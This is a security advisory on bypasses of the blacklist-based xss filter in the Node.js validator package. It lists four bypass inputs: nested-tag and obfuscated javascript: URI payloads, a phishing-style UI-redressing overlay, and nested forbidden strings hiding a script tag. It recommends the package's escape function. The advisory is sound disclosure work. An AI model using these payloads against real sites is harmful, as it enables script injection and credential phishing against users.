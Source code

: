 ## Overview
The validator module for Node.js contains functionality meant to filter potential XSS attacks (a filter called xss). Several ways to bypass the filter were discovered. In general, because the function’s filtering is blacklist-based it is likely that other bypasses will be discovered in the future. Developers are encouraged not to use the xss filter function in this package.

_Source: [Node Security Project](https://nodesecurity.io/advisories/41)_

### Details
Various inputs that could bypass the filter were discovered:

Improper parsing of nested tags:

```
<s <onmouseover="alert(1)"> <;s onmouseover="alert(1)">This is a test</s>
```

Incomplete filtering of javascript: URIs:

```
<a href="javascriptJ a V a S c R iPt::alert(1)" "<s>">test</a>
```

UI Redressing:

```
<div style="z-index: 9999999; background-color: green; width: 100%; height: 100%">
<h1>You have won</h1>Please click the link and enter your login details:
<a href="http://example.com/">http://good.com</a>
</div>
```

Bypass via Nested Forbidden Strings:

```
<scrRedirecRedirect 302t 302ipt type="text/javascript">prompt(1);</scrRedirecRedirect 302t 302ipt>
```

Additional bypasses were discovered by Krzysztof Kotowicz in 2012 when auditing CodeIgniter's XSS filtering function, which this code was based off of.

## Remediation
If you are a developer currently using the xss filter function from the validator package, you should consider replacing it with the escape filter function from the same package. This function replaces all instances of angle brackets (<, >), ampersands, and quotation marks, so no HTML tags will be processed.

## References

- [XSS Filter Bypass in validator Node.js Module](https://nealpoole.com/blog/2013/07/xss-filter-bypass-in-validator-nodejs-module/)
- [CodeIgniter <= 2.1.1 xss_clean() Cross Site Scripting filter bypass](http://blog.kotowicz.net/2012/07/codeigniter-210-xssclean-cross-site.html)
